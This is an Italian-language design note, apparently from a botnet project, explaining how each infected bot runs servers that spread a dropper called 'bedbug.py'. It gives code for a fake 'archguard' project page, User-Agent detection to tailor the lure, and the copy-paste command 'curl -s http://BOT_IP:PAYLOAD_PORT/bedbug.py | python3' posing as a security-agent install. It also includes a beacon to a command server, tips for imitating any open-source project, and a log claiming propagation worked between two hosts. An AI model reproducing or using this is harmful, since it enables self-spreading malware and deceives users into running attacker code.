

# Propagazione - Come un bot infetta altri

## Concetto

Ogni bot che esegue `ciao.py` diventa automaticamente un **seed node**: apre due mini HTTP server che permettono ad altre macchine di scaricare ed eseguire il dropper `bedbug.py`. Sergio non e' mai coinvolto nella propagazione laterale -- resta nascosto.



---

## Struttura seed node (ciao.py)

Quando `ciao.py` parte, lancia due thread oltre al beacon:

```
thread A  beacon       ogni 5s -> sergio:8080/heartbeat
thread B  bait server  HTTP su :SEED_PORT    (pagina fake)
thread C  payload srv  HTTP su :PAYLOAD_PORT (serve bedbug.py)
```

Le porte sono calcolate dall'orario di avvio:

```python
SEED_PORT    = 10000 + int(now.strftime("%H%M"))   # es. 14:23 -> 11423
PAYLOAD_PORT = SEED_PORT + 1                        # es. 11424
```

---

## Pagina bait - Social Engineering

Il bait server (`BaitHandler`) serve contenuto diverso a seconda di chi fa la richiesta, rilevando lo `User-Agent`:

```python
is_terminal = any(x in ua.lower() for x in ["curl", "wget", "python"])
```

### Risposta al browser (HTML)

Viene servita una pagina web che imita un progetto open source legittimo chiamato **archguard**, presentato come un monitor di sistema per Arch Linux.

La pagina include:
- Design professionale con nav, hero section, feature cards
- Versione badge (`v2.1.0`)
- Box "Quick Install" con comando copy-paste
- Descrizione innocua: "Lightweight agent that watches your processes, network connections"

Il comando mostrato nella pagina:

```bash
curl -s http://BOT_IP:PAYLOAD_PORT/bedbug.py | python3
```

L'IP e la porta vengono iniettati dinamicamente dalla risposta HTTP:

```python
seed_ip = self.headers.get("Host", "SEED_IP").split(":")[0]
html = BAIT_HTML.replace(b"SEED_IP", seed_ip.encode()).replace(b"PAYLOAD_PORT", port_str.encode())
```

### Risposta al terminale (testo ANSI)

Se la richiesta viene da `curl`, `wget` o `python`, viene servito un messaggio testuale con colori ANSI:

```
[!] System security agent not found.
    This system is not protected.

To install the security agent, run:

    curl -s http://BOT_IP:PAYLOAD_PORT/bedbug.py | python3
```

Il testo sfrutta la tendenza degli utenti Linux a copiare comandi da output di terminale.

---

## Payload server (PayloadHandler)

Serve `bedbug.py` dalla cartella corrente:

```
GET :PAYLOAD_PORT/bedbug.py  ->  restituisce bedbug.py in chiaro
```

Questo e' il file che la vittima esegue. Ogni bot lo serve autonomamente -- se sergio va offline, la propagazione continua tra i bot.

---

## Generazione bait per altri siti

La tecnica della bait page puo' essere adattata per imitare qualsiasi progetto open source. Gli elementi chiave sono:

| Elemento | Scopo |
|----------|-------|
| Nome progetto credibile | Ridurre sospetti ("archguard", "sysmon", "netwatch") |
| Descrizione tecnica innocua | "monitor", "agent", "security tool" |
| Badge versione | Aggiunge legittimita' visiva |
| Comando `curl ... | python3` | Pattern comune e accettato nella community Linux |
| Rilevamento User-Agent | Contenuto ottimizzato per ogni contesto |
| IP dinamico | Il link funziona da qualsiasi bot senza modifica hardcodata |

---

## Stato (testato 2026-04-03)

- [x] Propagazione cs33 -> cs23 funzionante
- [x] `bedbug.py` presente nella cartella di avvio di `ciao.py` e servito correttamente
- [x] Vettore di accesso a cs23 testato
